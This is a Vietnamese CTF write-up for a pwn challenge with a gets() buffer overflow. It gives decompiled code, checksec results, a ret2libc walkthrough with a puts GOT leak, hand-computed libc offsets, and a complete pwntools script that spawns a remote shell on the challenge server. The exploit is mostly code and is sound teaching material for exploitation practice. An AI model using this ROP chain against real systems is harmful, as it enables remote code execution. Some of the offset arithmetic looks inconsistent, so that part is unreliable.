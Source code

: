 # ida
```c
int date()
{
  return system("/bin/date");
}

__int64 vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Tell us some review about our program: ");
  fflush(_bss_start);
  return gets(v1);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
# checksec
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

#### thông qua ida và checksec, ta có thể đoán được là ret2libc
> hàm system bài này không có sẵn trong file, có trong file libc trên sever

# ret2libc
> do trong chương trình có hàm puts nên ta có put@got và put@plt dễ dành leak được libc và tính địa chỉ base.
```python
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
log.info('leak libc: ' + hex(leak_libc))
```
chạy script trên sever ta nhận được ```leak libc: 0x7f1dec78aed0``` (ở đây 3kí tự cuối ```ed0``` là không đổi), tìm file libc trên mạng t có 1 file

tiếp đến ta pwninit nhưng... có vẻ như nó không tự động patched với nhau.
```
bin: ./exe

copying ./exe to ./exe_patched
running patchelf on ./exe_patched
```
nhưng không sao, ta sẽ tính tay.
___
Đầu tiên ta sẽ tính địa chỉ base libc 

![image](https://user-images.githubusercontent.com/111769169/223641357-b1530364-a813-4f70-a4be-a797fe7975bb.png)

ta sẽ lấy địa chỉ nhỏ nhất của libc là ```0x007ffff7d8d000``` base và tính offset từ địa chỉ leak đến địa
```python
libc.address = leak_libc - 528080
log.info('base libc: ' + hex(libc.address))
```
tiếp đó debug động, ta sẽ kiểm tra địa chỉ của chuỗi ```/bin/sh``` và hàm ```symtem``` là:

```
[*] /bin/sh: 0x7ff7752d1dd0
[*] base libc: 0x7ff775277f80
```
và tìm chuỗi /bin/sh ở địa chỉ ```0x7ff775401698 - 0x7ff77540169f  →   "/bin/sh"``` và hàm symtem ở ```$1 = (int (*)(const char *)) 0x7ff775279d60 <__libc_system>```
tính offset của chuỗi /bin/sh: 1243336 và system: 7648
kiểm tra lại ta thấy đúng rồi là oke

```
0x007ffdf36f7710│+0x0050: 0x00000000400703  →  <__libc_csu_init+99> pop rdi
0x007ffdf36f7718│+0x0058: 0x007feff7d40698  →  0x68732f6e69622f ("/bin/sh"?)
0x007ffdf36f7720│+0x0060: 0x007feff7bb8d60  →  <system+0> endbr64
```

do khi chạy ta có lỗi xmm1 nên ta sẽ gọi lệnh ret để +8 vào stack

<details> <summary> script </summary>

```python
from pwn import *

# r = process("./exe_patched")
r = remote("execution.ctf.pragyan.org" , 12386)
exe = ELF("./exe_patched")
libc = ELF("./musl_1.1.24-1_amd64.so")
# gdb.attach(r, gdbscript='''
#            b*vuln+50
#            c
#            ''')
input()

pop_rdi = 0x0000000000400703
#################
### leak libc ###
#################
payload = b"a" * 72 + p64(pop_rdi)
payload += p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])
r.sendlineafter(b"our program: ", payload)
leak_libc = u64(r.recvuntil(b"\nWelcome", drop=True)[1:]+b'\0\0')
libc.address = leak_libc - 528080
log.info('leak libc: ' + hex(leak_libc))
log.info('base libc: ' + hex(libc.address))

#####################
### check address ###
#####################
log.info("/bin/sh: " + hex(next(libc.search(b"/bin/sh"))))
log.info('system: ' + hex(libc.sym['system']))


payload = b'a'*72
payload += p64(0x00000000004004c9)      #ret
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')) + 1243336)
payload += p64(libc.sym['system'] + 7648)
r.sendlineafter(b"our program: ", payload)
r.interactive()
```

</details>


